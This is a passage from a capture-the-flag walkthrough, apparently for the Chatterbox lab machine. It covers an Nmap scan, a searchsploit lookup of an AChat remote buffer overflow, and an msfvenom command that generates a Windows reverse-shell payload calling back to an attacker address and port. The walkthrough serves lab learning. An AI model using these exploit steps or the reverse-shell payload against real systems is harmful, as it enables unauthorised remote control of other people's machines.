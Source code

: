 ```text
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-21 06:18 EST
Nmap scan report for 10.10.10.74
Host is up (0.039s latency).PORT     STATE SERVICE VERSION
9256/tcp open  achat   AChat chat system
|_clamav-exec: ERROR: Script execution failed (use -d to debug)Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.27 seconds---------------------Finished all Nmap scans---------------------
```

We have one port open.

* **Port 9256**: ****running AChat chat system

Before we move on to enumeration, let’s make some mental notes about the scan results.

* Port 9256 is running some kind of chat system that I’m not familiar with, so the first we’ll do is google it to figure out what it is. Then we’ll run searchsploit on it to see if it is associated to any known vulnerabilities.

## Enumeration <a id="ad33"></a>

Doing a quick google search on the service tells us that AChat is a software that enables you to chat on your local network. It can also be used to share and send files/images to other users.

Now that we know what it is, let’s run searchsploit on it.

![](https://miro.medium.com/max/1174/1*-bEFqyrr_dYyPmeSzTn68A.png)

It’s vulnerable to a remote buffer overflow and there is both apython and metasploit exploit for it. We will of course work with the non-metasploit solution.

Copy the python script to your current directory.

```text
searchsploit -m 36025
```

Looking at the exploit code we make note of the following things:

* It looks like your classic stack buffer overflow that allows you to overflow the buffer and include malicious shell code that will get executed on the box.
* The exploit author was nice enough to give us the msfvenom command that generates the malicious payload \(_‘buf’_ variable\) including the bad characters to avoid. This makes our life so much easier! The command simply spawns the _calc.exe_ program on the target machine. So we’ll have to change the command to send a reverse shell back to our attack machine.
* We also need to change the _server\_address_ to that of the IP address of Chatterbox.
* There seems to be a length limit of 1152 bytes on the payload. Anything that exceeds that will probably not work. We’ll keep that in mind when using msfvenom to generate our reverse shell.

## Initial Foothold <a id="c189"></a>

Use msfvenom to generate the reverse shell payload.

```text
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
